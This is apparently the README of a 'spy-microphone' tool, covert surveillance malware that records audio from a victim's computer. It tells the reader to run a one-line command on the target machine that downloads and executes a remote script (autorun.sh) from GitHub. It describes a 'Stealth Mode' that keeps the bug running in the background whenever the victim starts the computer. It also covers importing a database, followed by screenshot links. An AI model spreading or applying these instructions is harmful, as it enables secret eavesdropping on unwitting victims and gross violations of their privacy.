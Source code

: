 
   For use spy-microphone please follow instructions <br><br>

   Easy remote command for spy <br>
   Open the terminal of any computer want to spy and run this: <br>
   bash <(curl -s https://raw.githubusercontent.com/makdosx/spy-microphone/master/shell/autorun.sh) <br><br>

    i) Run the file autorun.sh in  the computer of victim and set your params 
       Stealth Mode <br>
         With this feature the bug will continue if it works whenever the victim opens the computer 
         automatically by running in the background.
         
  ii) import the sql file in to your database 


  iii) The spy-microphone ready to use 

![1](png/1.png) <br> <br> <br> 

![2](png/2.png) <br> <br> <br> 

![3](png/3.png) <br> <br> <br> 

![4](png/4.png) <br> <br> <br> 

![6](png/6.png) <br> <br> <br> 

![0](png/0.jpg) 
